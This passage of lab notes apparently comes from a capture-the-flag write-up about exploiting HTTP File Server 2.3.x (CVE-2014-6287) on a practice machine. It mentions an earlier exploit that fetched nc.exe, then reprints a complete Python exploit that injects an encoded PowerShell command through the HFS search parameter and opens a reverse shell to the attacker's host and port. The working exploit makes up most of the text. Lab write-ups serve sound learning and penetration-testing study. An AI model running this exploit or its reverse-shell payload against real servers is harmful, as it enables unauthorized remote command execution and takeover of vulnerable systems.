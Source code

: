 This is strange - I guess they took a while to come through. But it means we did have code execution when we tried earlier - just no shell.

After a wait, the `39161.py` exploit also eventually executed, requesting the `nc.exe` file:

![[Pasted image 20210613115437.png]]

I'd already moved onto the next exploit when I noticed this, but I would eventually [[15 - Shell as kostas#Getting a Better Shell|fix it]] in the final stage of priv esc.

I should have been a little more patient and then I may have been able to debug that I needed to host `nc.exe`, but the next exploit I tried was much easier to read and understand anyway.

### Working HFS Exploit

I tried another: [https://www.exploit-db.com/exploits/49584](https://www.exploit-db.com/exploits/49584)

```python
# Exploit Title: HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)
# Google Dork: intext:"httpfileserver 2.3"
# Date: 20/02/2021
# Exploit Author: Pergyz
# Vendor Homepage: http://www.rejetto.com/hfs/
# Software Link: https://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Microsoft Windows Server 2012 R2 Standard
# CVE : CVE-2014-6287
# Reference: https://www.rejetto.com/wiki/index.php/HFS:_scripting_commands

#!/usr/bin/python3

import base64
import os
import urllib.request
import urllib.parse

lhost = "10.10.16.211"
lport = 413
rhost = "10.10.10.8"
rport = 80

# Define the command to be written to a file
command = f'$client = New-Object System.Net.Sockets.TCPClient("{lhost}",{lport}); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{{0}}; while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){{; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i); $sendback = (Invoke-Expression $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}}; $client.Close()'

# Encode the command in base64 format
encoded_command = base64.b64encode(command.encode("utf-16le")).decode()
print("\nEncoded the command in base64 format...")

# Define the payload to be included in the URL
payload = f'exec|powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -EncodedCommand {encoded_command}'

# Encode the payload and send a HTTP GET request
encoded_payload = urllib.parse.quote_plus(payload)
url = f'http://{rhost}:{rport}/?search=%00{{.{encoded_payload}.}}'
urllib.request.urlopen(url)
print("\nEncoded the payload and sent a HTTP GET request to the target...")

# Print some information
print("\nPrinting some information for debugging...")
```